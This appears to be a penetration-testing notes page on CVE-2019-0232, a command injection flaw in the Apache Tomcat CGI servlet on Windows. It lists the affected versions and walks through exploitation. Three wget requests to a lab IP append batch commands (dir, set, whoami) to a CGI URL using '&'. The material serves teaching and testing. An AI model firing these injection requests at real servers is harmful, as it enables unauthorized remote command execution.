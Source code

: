 ```yaml
---
icon: cat
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# CVE-2019-0232 - CGI RCE

`CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled.

An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system.

Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.

## Exploitation

After finding a CGI to exploit (see [#finding-cgi-scripts](../../../../intelligence/application-enumeration/tomcat-enumeration.md#finding-cgi-scripts "mention")), we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`.

```bash
wget http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

This URL returns the output for the `dir` batch command, however trying to run other common windows command line apps, such as `whoami` might not return an output.

Retrieve a list of environmental variables by calling the `set` command:

```bash
wget http://10.129.204.227:8080/cgi/welcome.bat?&set
```

From the list, we can see that the `PATH` variable has been unset, so we will need to hardcode paths in requests:

```bash
wget http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

Ensure that the URLs are properly encoded.
